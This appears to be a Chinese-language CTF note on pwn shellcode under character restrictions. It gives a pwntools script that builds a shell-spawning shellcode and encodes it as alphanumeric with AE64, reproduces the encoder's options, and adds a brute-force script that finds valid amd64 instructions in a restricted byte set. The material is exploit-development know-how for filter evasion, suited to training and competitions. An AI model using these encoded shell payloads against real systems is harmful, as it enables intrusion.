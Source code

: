 ## 限制可见字符

比较常见不必多说，`AE64`一把梭

```python
from ae64 import AE64
from pwn import *
context.arch='amd64'

# get bytes format shellcode
shellcode = asm(shellcraft.sh())

# get alphanumeric shellcode
enc_shellcode = AE64().encode(shellcode)
print(enc_shellcode.decode('latin-1'))
```

配置：

```python
enc_shellcode = AE64().encode(shellcode)
# equal to 
enc_shellcode = AE64().encode(shellcode, 'rax', 0, 'fast')

'''
def encode(self, shellcode: bytes, register: str = 'rax', offset: int = 0, strategy: str = 'fast') -> bytes:
"""
encode given shellcode into alphanumeric shellcode (amd64 only)
@param shellcode: bytes format shellcode
@param register: the register contains shellcode pointer (can with offset) (default=rax)
@param offset: the offset (default=0)
@param strategy: encode strategy, can be "fast" or "small" (default=fast)
@return: encoded shellcode
"""
'''
```

## shellcode限制字符的爆破脚本

我们知道若`shellcode`类的题目限制了使用的字符为可见字符或字母数字等情况时，可以使用`ae64`一把梭哈。然而，有的情况的限制更为严格，这种时候往往需要进行手搓`shellcode`了。

这里是一份`shellcode`可用字符的爆破脚本：

```python
import itertools
from pwn import *

context.arch = "amd64"

s = "0123456789\x3a\x3b\x3c\x3d\x3e\x3f\x40" #可用字符

for x in range(3):
    for y in itertools.product(s, repeat=x+1):
        res = disasm("".join(y).encode())
        need_p = 1
        for kk in  (".byte", "rex", "ds", "bad", "ss"):
            if kk in res:
                need_p = 0
                break
        if need_p:
            print(res)
```
